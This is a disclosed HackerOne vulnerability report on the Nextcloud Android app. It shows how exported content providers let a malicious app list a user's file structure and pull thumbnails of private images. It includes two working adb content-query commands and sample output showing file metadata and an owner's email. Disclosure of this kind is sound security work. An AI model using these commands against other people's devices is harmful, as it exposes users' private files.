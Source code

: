 # Combination of content provider allows private data disclosure

## Report Details
- **Report ID**: 534541
- **URL**: https://hackerone.com/reports/534541
- **State**: Closed
- **Severity**: low
- **Submitted**: 2019-04-10T15:16:55.869Z
- **Disclosed**: 2019-07-26T07:44:51.021Z

## Reporter
- **Username**: doragon
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nextcloud

## Vulnerability Information
Good afternoon.

Sorry, its me again .. I use NC on a daily basis so I often makes some checks ..

As per #489105, document thumbnail shall not be disclosed. The exposure on thumbnailCache/ is an already know issue.  However, malicious apps are still able to extract (at least) pictures and text files by combining two content provider results.

As discussed in #518669, file status is exposed. This allow basically any app to retreive NC storage file structures. The  following endpoint is the relevant one for current issue:
```adb shell content query --uri content://org.nextcloud/file ```

which output for instance
```Row: 1 _id=7, filename=1553357105332.jpg, encrypted_filename=NULL, path=/1553357105332.jpg, parent=1, created=0, modified=1553357105000, content_type=image/jpeg, content_length=1275, media_path=, file_owner=julien_contacts@cloud.local.yourosoft.com, last_sync_date=1554908710211, keep_in_sync=NULL, last_sync_date_for_data=1554908492289, modified_at_last_sync_for_data=1553357105000, etag=1181bc97f9637dc926b9a5eddd618c7b, share_by_link=0, public_link=, permissions=RGDNVW, remote_id=00087789oc2tsz873825, update_thumbnail=0, is_downloading=0, favorite=0, is_encrypted=0, etag_in_conflict=NULL, shared_via_users=0, mount_type=0, has_preview=1, unread_comments_count=0, etag_on_server=1181bc97f9637dc926b9a5eddd618c7b, owner_id=julien_contacts, owner_display_name=Julien (Contact sync), note=
```

By using the output from this content provider query, it is possible to force the DiskLruImageCacheFileProvider content provider to generate thumbnail of the assets
adb shell content read --uri content://org.nextcloud.imageCache.provider/1553357105332.jpg

## Impact

User data is exposed to partial  disclosure (thumbnail).

As far as I understand, DiskLruImageCacheFileProvider shall not be exported

## Attachments
No attachments
